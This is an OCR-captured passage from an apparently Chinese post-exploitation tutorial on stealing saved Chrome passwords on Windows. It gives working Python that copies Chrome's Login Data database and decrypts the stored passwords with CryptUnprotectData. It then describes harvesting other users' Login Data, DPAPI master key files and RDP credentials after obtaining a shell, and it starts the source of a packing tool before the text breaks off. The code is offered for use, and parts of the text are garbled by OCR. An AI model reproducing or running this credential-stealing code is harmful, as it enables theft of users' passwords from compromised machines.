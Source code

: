     # tmp_file = os.path.join(os.path.dirname(sys.executable), 'tmp_tmp_tmp')
    tmp_file = './loginData'
    print(tmp_file)
    if os.path.exists(tmp_file):
        os.remove(tmp_file)
    shutil.copyfile(db_file_path, tmp_file)
    
    conn = sqlite3.connect(tmp_file)
    for row in conn.execute('select signon_realm,username_value,password_value from logins'):
        try:
            ret = win32crypt.CryptUnprotectData(row[2], None, None, None, 0)
            print('url：%-50s username：%-20s password：%s' % (row[0], row[1], ret[1].decode('gbk')))
        except Exception as e:
            print('url：%-50s get Chrome password Filed...' % row[0])
            pass
    conn.close()
    os.remove(tmp_file)
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200930113246514.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**0x03. 离线导出当前系统下另一用户的Chrome密码**

使用工具Windows Password Recovery

解密需要获得三部分内容：

加密密钥(即Master Key file)，位于%appdata%\\Microsoft\\Protect下对应sid文件夹下的文件-
数据库文件Login Data-
用户明文的密码，用于解密加密密钥-
环境模拟：-
环境：一台windows10机器，里面装有谷歌浏览器，用户有administrator和test等等其他用户

目的：当我们拿到shell后，当前用户是administrator，我们想要获取test等其他用户在当前系统保存的谷歌浏览器密码。

前提条件：需要知道test账户的明文密码，可以通过导注册表方法获取test的明文密码

工具：py编译后的exe工具

filepack.exe执行后会获取 1. 所有用户谷歌浏览器的Login Data文件 2. 获取所有用户的master key file 3. 获取所有用户的rdp保存凭证（该文件用来破解RDP，此处无用）

如下图是filepack.exe执行的结果，会在当前目录生成三个压缩文件-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200930113311304.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
goole.zip是所有用户谷歌浏览器的Login Data压缩包 protect.zip是所有用户的master key file压缩包 rdp.zip是所有用户的rdp保存凭证压缩包-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200930113323987.png%23pic_center)

**filepack源码-
获取目标服务器的重要文件-
– coding:utf-8 -**-
import os import shutil import sqlite3 import win32crypt

users\_dir = os.environ\[‘userprofile’\].rsplit(’’, 1)\[0\] # 获取users目录的路径
